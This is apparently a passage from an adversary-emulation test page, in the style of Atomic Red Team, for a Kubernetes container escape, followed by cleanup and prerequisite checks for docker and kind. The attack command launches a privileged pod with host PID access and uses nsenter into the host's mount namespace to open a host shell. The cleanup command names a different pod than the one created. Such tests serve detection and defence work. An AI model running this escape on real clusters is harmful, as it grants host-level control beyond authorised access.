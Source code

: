 **Supported Platforms:** Containers

**auto_generated_guid:** 0b2f9520-a17a-4671-9dba-3bd034099fff

#### Attack Commands: Run with `sh`!

```sh
kubectl --context kind-atomic-cluster run atomic-nsenter-escape-pod --restart=Never -ti --rm --image alpine --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

#### Cleanup Commands:

```sh
kubectl --context kind-atomic-cluster delete pod atomic-escape-pod
```

#### Dependencies: Run with `sh`!

##### Description: Verify docker is installed.

##### Check Prereq Commands:

```sh
which docker
```

##### Get Prereq Commands:

```sh
if [ "" == "`which docker`" ]; then echo "Docker Not Found"; if [ -n "`which apt-get`" ]; then sudo apt-get -y install docker ; elif [ -n "`which yum`" ]; then sudo yum -y install docker ; fi ; else echo "Docker installed"; fi
```

##### Description: Verify docker service is running.

##### Check Prereq Commands:

```sh
sudo systemctl status docker
```

##### Get Prereq Commands:

```sh
sudo systemctl start docker
```

##### Description: Verify kind is in the path.

##### Check Prereq Commands:

```sh
which kind
```
